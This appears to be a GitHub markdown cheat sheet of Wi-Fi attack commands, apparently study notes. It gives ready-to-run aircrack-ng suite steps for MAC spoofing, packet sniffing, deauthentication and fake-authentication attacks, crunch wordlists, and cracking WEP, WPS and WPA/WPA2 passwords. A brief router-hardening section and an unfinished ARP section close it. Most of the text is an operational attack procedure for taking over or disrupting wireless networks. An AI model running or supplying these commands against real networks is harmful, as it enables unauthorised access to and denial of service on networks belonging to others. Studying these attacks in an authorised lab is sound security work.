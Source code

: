 # Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [De-auth Attack](#deauth)
- [Fake-auth Attack](#fakeauth)
- [Creating a Wordlist](#wordlist)
- [WIFI Password Craking](#wifipasscrack)
  - [WEP](#wep)
  - [WPS](#wps)
  - [WPA & WPA](#wpa)
- [Implement Security for Router](#router)
- [Network Inforamtion Gathering](#nig)
- [ARP Attack](#arp)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

**DESC** : *Change MAC adresse*

MAC = Media Access Control

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="changewirelessmode"/>

## Changing wireless mode to Monitor

```bash
# step 1
ifconfig <INTERFACE> down
# step 2
airmon-ng check kill
# step 3
iwconfig <INTERFACE> mode monitor
# step 4
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

**DESC** : *`airodump-ng` is a packet sniffer program*
 - Must have a wifi key in wireless `monitor mode`
 - Use to capture packets within range
 - Display detailed info about networks
 - part of "aircrak-ng" suit

**USAGE** : `airodump-ng <INTERFACE>`

1. Must [change wireless mode](#changewirelessmode) : Managed to Monitor
2. Run `airodump-ng`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## De-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

1. Run `aerodump-ng`
2. Run `aireplay-ng`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```

<a name="fakeauth" />

## Fake-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --fakeauth <#FAKEAUTH_PACKETS> -a <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>`

example:
```bash
aireplay-ng --fakeauth 0 -a 11:22:33:44:55:66 -h 00:11:22:33:44:55 mon0
```

<a name="wordlist"/>

## Wordlist with `crunch`

**Desc** : Wordlist are used to bruteforce password, here is how to create our own wordlist

**USAGE** : `crunch <MIN> <MAX> <CHARACTERS> -t <PATERN> -o <FILE_NAME>`

example
```bash
crunch 6 8 123abc$ -t a@@@@b -o wordlist.txt
```

<a name="wifipasscrack"/>

## WIFI password cracking

<a name="wep"/>

### WEP

**DESC** : WEP is a very basics RC4 encryption method. that use a random Initialisation Vector (IV) of only from 24 bits to 128 bits\
WEP = Wired Equivalent Privacy\
`IV + Password = Key Stream`\
In order to get the Password we will perform statistics on packets\
IV is added at the beginning of each packet send to the router

#### If network is busy

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Analyse captured IVs by running
  ```bash
  aircrack-ng <FILE_NAME>.cap
  ```

#### If network is not busy

We will perform an association (not connection) to force the network to send IVs

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Do one [Fake Authentification Attack](#fakeauth)
4. Wait for an `ARP` packet, and use it to force network to create new IVs
    ```bash
    aireplay-ng --arpreplay -b <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>
    ```
5. Then Analyse captured IVs by running
    ```bash
    aircrack-ng <FILE_NAME>.cap
    ```
   
<a name="wps"/>

### WPS

**DESC** : WPS is not a type of encryption but it's a method to connect without entering password\
Used by some printer and easy connect with a WPS button on the router\
We will bruteforce the password\
Router must be on WPS not be configured "Push Button" or "PBC", only way to know is to test

1. [Change wireless mode](#changewirelessmode) to monitor
2. List WPS available
    ```bash
     wash --interface <INTERFACE>
     ```
3. Do Some (30) [Fake Authentification Attack](#fakeauth)
4. Bruteforce with `reaver`
    ```bash
    reaver --bssid <NETWORK_MAC> --channel <CHANNEL> --interface <INTERFACE> -vvv --no-associate
    ```

<a name="wpa"/>

### WPA & WPA2

**DESC** : WPA fixed WEP vulnerabilities, one way is to bruteforce the password with wordlist.\
The main idea is to catch the handshake to then bruteforce\
MIC = Message Integrity Code
This is the code we try to get correct by testing password from worlist and the data of the handshake (SP address, STA Address, AP Nonce, STA Nonce, EAPOL, Payload).

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) on a specific bssid and channel (Wait for capturing the handshake) and save them in a file <FILE_NAME>.cap
3. Do some (4) [Fake Authentification Attack](#fakeauth)
    1. force the handshake on one user
4. With [wordlist](#wordlist) run `aircrack-ng`
    ```bash
    aircrack-ng <FILE_NAME>.cap -w <WORDLIST_FILE>
    ```

<a name="router"/>

## Implement Security for Router

Make sur you set WPA2 as encryption
Make sur you password is long with capital leters and special characters
Make sur to desable WPS

Find router ip
```bash
[Windows]
Get-NetRoute

[Linux]
ip route
```

<a name="nig"/>

## Network Inforamtion Gathering

With `netdiscover`
```bash
netdiscover -r <IP_RANGE>

example:
netdiscover -r 192.8.4.1/24
```

With `zenmap`, a GUI for `nmap`
1. Set an IP range in the target field
2. Select a Profile
3. Run scan

<a name="arp" />

## ARP Attack

TODO
